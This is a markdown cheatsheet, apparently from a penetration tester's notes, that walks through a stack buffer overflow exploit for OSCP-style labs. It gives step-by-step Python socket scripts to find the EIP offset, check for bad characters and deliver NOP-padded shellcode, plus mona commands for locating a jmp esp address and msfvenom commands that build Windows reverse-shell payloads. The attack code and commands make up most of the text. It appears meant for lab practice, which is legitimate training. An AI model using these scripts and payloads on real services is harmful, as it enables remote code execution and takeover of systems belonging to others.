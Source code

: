# Binary Exploitation

## Ghidra

Install:

* [https://ghidra-sre.org/](https://ghidra-sre.org/)

```text
$ mv /opt/tor-browser/Browser/Downloads/ghidra*.zip ~/tools
$ cd ~/tools && unzip ghidra*.zip && rm ghidra*.zip && mv ghidra* ghidra && cd -
$ sudo apt install openjdk-11-jdk
```

## OSCP BOF Cheatsheet

All you need to know about OSCP BOF challenge. A perfect example for practice – [here](https://www.vulnhub.com/entry/brainpan-1,51/) on VulnHub, report sample – [here](https://github.com/chvancooten/OSCP-MarkdownReportingTemplates/blob/master/Examples/Example%20Report.pdf).

### 1. Determine EIP Offset

Generate unique pattern and feed it to the application:

```text
$ msf-pattern_create -l 5000
$ python3 bof_send_pattern.py
```

```python
#!/usr/bin/env python3
# bof_send_pattern.py

import socket

buf = b'<UNIQUE_PATTERN>'
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```

Calculate the offset from buffer to EIP overwrite point:

```text
$ msf-pattern_offset -l 5000 -q <EIP_VALUE>
[*] Exact match at offset <EIP_OFFSET>
```

### 2. Confirm BOF

Confirm that you actually can control EIP value - if true it will be overwritten with `D34DC0D3`:

```text
$ python3 bof_confirm.py
```

```python
#!/usr/bin/env python3
# bof_confirm.py

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 16

buf = junk + eip + offset
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```

### 3. Enumerate Bad Characters

Send all the byte values to the application. Then in [Immunity Debugger](https://www.immunityinc.com/products/debugger/) right click on ESP → "Follow in Dump", and check what characters are missing or misinterpreted - they are the **bad characters** that should be excluded when generating the shellcode:

```text
$ python3 bof_bad_chars.py
```

```python
#!/usr/bin/env python3
# bof_bad_chars.py

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4

badchars = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
#badchars = '\x00'

buf = junk + eip + offset + badchars
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```

### 4. Build the Exploit

#### I. Find a Return Address

List all loaded libraries in process memory space with [mona](https://github.com/corelan/mona):

```text
!mona modules
```

Choose a module with no memory protections enabled.

Look for `jmp esp` instruction in that module:

```text
$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
Or
nasm > call esp
00000000  FFD4              call esp

!mona find -s "\xff\xe4" -m "application.exe"
```

Found pointer is the needed value for EIP to force the execution flow into malicious shellcode.

#### II. Generate a Shellcode

Build a shellcode providing bad characters set from \(3\):

```text
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -e x86/shikata_ga_nai -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00"
```

### 5. Exploit!

Start nc listener, feed the shellcode to the application and catch your shell:

```text
$ python3 bof_exploit.py
```

```python
#!/usr/bin/env python3
# bof_exploit.py

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4
nops = b'\x90' * 10

buf = junk + eip + offset + nops
buf += b"<SHELLCODE>"
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```


